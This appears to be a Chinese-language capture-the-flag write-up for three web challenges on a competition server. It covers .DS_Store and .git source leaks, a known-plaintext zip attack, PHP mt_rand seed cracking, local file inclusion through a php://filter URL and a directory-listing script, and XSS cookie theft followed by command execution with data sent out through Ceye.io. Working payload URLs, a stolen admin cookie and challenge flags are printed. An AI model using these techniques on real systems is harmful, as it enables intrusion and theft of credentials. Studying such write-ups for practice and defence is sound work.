








web3
发现网页
.DS_store泄露，使用ds_store_exp复原
在
http://61.164.47.198:10002/e10adc3949ba59abbe56e057f20f883e下.git源码泄露。使用githack还原。
下载
BackupForMySite.zip，发现压缩包中存在的lengzhu.jpg与网页中lengzhu.jpg相同。使用zip明文攻击，在尝试winrar和7zip，好压对lengzhu.zip进行压缩解密。发现好压压缩之后的lengzhu.jpg能够成功解密。使用archpr选择明文，运行一段时间即可停止，发现成功解密BackupForMySite.zip。

- hint文件中给了code参数值，和seed.txt文件路径。猜测为php伪随机数
1 | code is 9faedd5999937171912159d28b219d86 |

使用
php_mt_seed获取种子seed
访问
http://61.164.47.198:10002/flag/309551.txt
flag{0730b6193000e9334b12cf7c95fbc736}
babyt3
一进主页提示include $_GET[‘file’]

访问
1 | view-source:http://61.164.47.198:10000/index.php查看源代码发现提示 |
使用伪协议读取dir.phphttp://61.164.47.198:10000/index.php?file=php://filter/convert.base64-encode/resource=dir.php
1 | include $_GET['file']PD9waHAKJGEgPSBAJF9HRVRbJ2RpciddOwppZighJGEpewokYSA9ICcvdG1wJzsKfQp2YXJfZHVtcChzY2FuZGlyKCRhKSk7Cg== |

利用Scandir访问根目录http://61.164.47.198:10000/index.php?file=dir.php&dir=/，得到flag文件所在位置。

使用file包含该文件，可得flagflag{8dc25fd21c52958f777ce92409e2802a}
breakout
利用xss 得到管理员cookie，在command利用Ceye.io获取admin系统信息
md5验证码
1 | import hashlib |
得到cookie
1 | %20admin=admin_!@@!_admin_admin_hhhhh; |
1 | POST /exec.php HTTP/1.1 |